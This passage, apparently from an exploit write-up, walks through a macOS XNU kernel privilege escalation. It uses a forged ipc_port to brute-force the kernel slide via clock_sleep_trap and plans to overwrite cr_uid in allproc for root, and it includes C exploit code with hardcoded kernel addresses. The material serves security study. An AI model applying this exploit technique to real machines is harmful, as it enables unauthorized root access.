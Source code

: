 If we can set  `uid_t cr_uid` to `0` then we can get root privilege. XNU kernel uses a link list called `allproc` to maintain the processes. So after getting kernel slide and get kernel memory rw we can easily overwrite our uid in `allproc`.

### KASLR

We already have an `ipc_port` fully controlled by us. Take a look at the following routine.

```c
kern_return_t
clock_sleep_trap(
	struct clock_sleep_trap_args *args) {
  // ...
  
  if (clock_name == MACH_PORT_NULL)
		clock = &clock_list[SYSTEM_CLOCK];
	else
		clock = port_name_to_clock(clock_name);

	swtime.tv_sec  = sleep_sec;
	swtime.tv_nsec = sleep_nsec;

	/*
	 * Call the actual clock_sleep routine.
	 */
	rvalue = clock_sleep_internal(clock, sleep_type, &swtime);
	// ...
}
```

and `clock_sleep_internal` will return `KERN_FAILURE` when `clock != &clock_list[SYSTEM_CLOCK]`.And `port_name_to_clock` returns `port->ip_kobject;`  So we can find the address of `clock_list` by brute force search.

```c
	kern_return_t kr = 0;
	uint64_t clock_list = 0xffffff8000a271c0;   // nm /System/Library/Kernel/kernel | grep _clock_list
	uint64_t allproc = 0xffffff8000abb490;			// nm /System/Library/Kernel/kernel | grep allproc
	uint64_t clock_list_addr = 0;
	uint64_t base = 0xffffff8000200000;  // kernel_base_addr = 0x200000 * slide_value + base
	uint64_t kernel_slide = 0;
	boolean_t found_clock = 0;

	fakeport->io_bits = IO_BITS_ACTIVE | IKOT_CLOCK;	// fake clock
	fakeport->io_lock_data[12] = 0x11;

	for (int i = 0; i < 0xFFFF; i++) {
		for (int k = 0; k <= 0x200000 / 8; k += 8) {
			*(uint64_t *)(((uint64_t)fakeport) + 0x68) = base + i * 0x200000 + k;	// brute force, set fakeport->ip_kobject
			kr = clock_sleep_trap(port, 0, 0, 0, 0);	
			if (kr != KERN_FAILURE) {
				printf("[+] found clock_list! 0x%llx\n", *(uint64_t *)(((uint64_t)fakeport) + 0x68));
				clock_list_addr = *(uint64_t *)(((uint64_t)fakeport) + 0x68);
				found_clock = 1;
				goto found;
			}
		}
	}
```
